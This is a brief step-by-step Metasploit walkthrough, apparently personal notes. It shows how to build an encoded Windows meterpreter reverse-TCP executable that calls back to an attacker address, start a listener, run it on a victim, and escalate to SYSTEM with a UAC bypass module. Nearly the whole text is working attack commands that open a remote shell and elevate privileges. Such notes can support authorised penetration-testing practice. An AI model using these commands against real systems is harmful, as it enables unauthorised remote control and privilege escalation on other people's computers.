 # Metasploit
```
Attacker 192.168.0.99
Victim   192.168.0.5
```

## Step 1: Create Windows Payload
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e cmd/powershell_base64 -i 10 LHOST=192.168.0.99 > blabla.exe
```

## Step 2: Start Listener
```
msf> use exploit/multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST 192.168.0.99
msf> run
```


## Step 3: Execute blabla.exe on Target
```
metasploit session appears on listsener
```


## Step 4: GetSystem will fail
```
getsystem
```


## Step 5: Privilege Elevation
```
meterpreter> run post/windows/gather/win_privs
meterpreter> getsystem

/* background session and launch UAC bypass
 * 
 * - SESSION must be set to current meterpreter session id
 * - TARGET must be set to 1 for x64 victims
 * - check for open sessions with sessions -l
 */

meterpreter> background
msf> use exploit/windows/local/uacbypass
msf> set session 1
msf> set target 1
msf> set payload windows/meterpreter/reverse_tcp
msf> set lhost 192.168.0.99
msf> run

/* final - get system and show privs */
meterpreter> getsystem
meterpreter> run post/windows/gather/win_privs
```

